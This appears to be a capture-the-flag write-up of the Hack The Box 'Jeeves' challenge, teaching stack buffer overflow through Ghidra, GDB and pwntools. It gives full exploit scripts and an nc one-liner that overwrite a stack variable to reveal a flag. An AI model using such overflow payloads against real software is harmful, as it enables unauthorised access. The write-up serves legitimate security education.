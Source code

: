 ```yaml
---
layout: page
title:  "Jeeves (Easy)"
seo_title: "Introduction to Binary Exploitation with Hack The Box: Jeeves Pwn Challenge writeup"
date:   2023-09-08T12:30
categories: ['Binary-Exploitation','HackTheBox']
excerpt: Hack The Box Jeeves writeup for the first Pwn challenge in the Intro to Binary Exploitation track.
---
```


![](/assets/images/headers/Jeeves.png)

Today we take on a simple binary exploitation challenge from Hack The Box. In this post we are going to solve the Jeeves Pwn challenge from the **Intro to Binary Exploitation** track.

## Running the program
We start off by running the program normally. We are given a prompt asking for our name.
```bash
$ ./jeeves 
Hello, good sir!
May I have your name? bytebl33d
Hello bytebl33d, hope you have a good day! 
```
The program subsequently prints a greeting message back to us. Based on this response alone, we can assume that our input is stored somewhere in a buffer.

## Examining the binary with Ghidra
Let's decompile the binary using Ghidra so that we can better understand its inner workings. After importing the binary we can analyze the `main` function:
```c
main(void){
  char input [44];
  int file;
  void *buffer;
  int check;
  
  check = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(input);
  printf("Hello %s, hope you have a good day!\n",input);
  if (check == 0x1337bab3) {
    buffer = malloc(0x100);
    file = open("flag.txt",0);
    read(file,buffer,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",buffer);
    close(file);
  }
  return 0;
}
```
The user input is stored inside the input buffer with a size of 44 bytes. We also see there is a `flag.txt` file that gets opened after the if-statement that verfifies if the `check` variable is equal to the value `0x1337bab3` (or in other words 'leetbabe'). However, this check is never going to succeed because the `check` variable is initialized in a different way. We therefore need to find out how to overwrite this variable on the stack. 

The assembly view in Ghidra shows this variable is given the hex value of `0xdeadc0d3` (since this is indeed just dead code).

![ghidra](/assets/images/binary-exploitation/ghidra.png)

## Examining the binary in GDB
Loading the binary into GDB and disassembling the `main` function we get the following output:
```as
$ gdb jeeves

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>: endbr64
   0x00000000000011ed <+4>: push   rbp
   0x00000000000011ee <+5>: mov    rbp,rsp
   0x00000000000011f1 <+8>: sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
```
Our task is to figure out how many bytes we have to overflow the buffer in order to overwrite the `check` variable. Lets's set a breakpoint right after the `gets` call and run the program (just enter some A's as our input):
```as
pwndbg> b *main+53
pwndbg> r

<SNIP>

*RBP  0x7fffffffdec0 ◂— 0x1
*RSP  0x7fffffffde80 ◂— 'AAAAAAAAAA'
*RIP  0x55555555521e (main+53) ◂— lea rax, [rbp - 0x40]
────────────────────────────────────[ DISASM / x86-64 / set emulate on ] ────────────────────────────────────────────────
 ► 0x55555555521e <main+53>     lea    rax, [rbp - 0x40]
   0x555555555222 <main+57>     mov    rsi, rax
   0x555555555225 <main+60>     lea    rdi, [rip + 0xe04]
   0x55555555522c <main+67>     mov    eax, 0
   0x555555555231 <main+72>     call   printf@plt              <printf@plt>
   0x555555555236 <main+77>     cmp    dword ptr [rbp - 4], 0x1337bab3
   0x55555555523d <main+84>     jne    main+191                <main+191>
   0x55555555523f <main+86>     mov    edi, 0x100
   0x555555555244 <main+91>     call   malloc@plt              <malloc@plt>
   0x555555555249 <main+96>     mov    qword ptr [rbp - 0x10], rax
   0x55555555524d <main+100>    mov    esi, 0
```
Looking at the RIP (Instruction Pointer) above, we can see that it is comparing `dword ptr [rbp - 4]` with `0x1337bab3`. Let's have a look at the value of `rbp-4` in GDB.
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0xdeadc0d3
```
To see what happens when we change this variable, we can try to change it using `pwndbg` and continue running the program. Pwndbg is just a handy GDB plug-in that makes debugging with GDB easier for reverse-engineering tasks.
```bash
pwndbg> set *0x7fffffffdebc = 0x1337bab3
pwndbg> x/x $rbp-4
0x7fffffffdebc: 0x1337bab3
pwndbg> c
Continuing.
Hello AAAAAAAAAA, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
[Inferior 1 (process 13162) exited normally]
```
Looking at the output we can see that if we are able to change the variable to `0x1337bab3`, we receive a small gift. This is probably the flag we are looking for.

## The Exploitation
Using python3 we can find the offset by generating a pattern and running the program with this input. To make our lifes a bit easier, we can do this with the `pwntools` package as follows:
```bash                                                                                            
pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We run the program again with the created pattern and inspect `rbp-4`:
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0x61616170      # this is paaa in ASCII
```
We see that the variable now gets overwritting with `paaa`. Finding the offset is as easy as just using the `cyclic_find` function from `pwntools`:
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
>>> cyclic_find('paaa')
>>> 60
```
So our final payload will be: `A*60 + 0x1337bab3`.

### Crafting our payload
Now we have all the information to craft our payload.
```python
from pwn import *

check = p64(0x1337bab3)
payload = b"A"*60 + check

print(payload)
```
Or we can run it directly in GDB to test our payload first:
```bash
pwndbg> r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

## Executing our payload on the target
Here we will show 2 ways of executing our payload. The first method is a manual approach, while the other is a more automated way using `pwntools`.

### Method 1 (manual)
```bash
nc <IP_ADDRESS> <PORT> <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

### Method 2 (pwntools)
```python
from pwn import *

target = process(b"nc")
target.sendline(b"<IP_ADDRESS> <PORT>")

payload = b"A"*60
payload += p64(0x1337bab3)

target.sendline(payload)

print(target.recvuntil(b"}"))
```
Running our exploit code:
```bash
$ python3 exploit.py
[+] Starting local process '/usr/bin/nc': pid 20136
b"Cmd line: Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3*****************!}"
[*] Process '/usr/bin/nc' stopped with exit code 0 (pid 20136)
```
After running our exploit, we indeed get the flag back. We have successfully completed our first pwn challenge in the Intro to Binary Exploitation track.
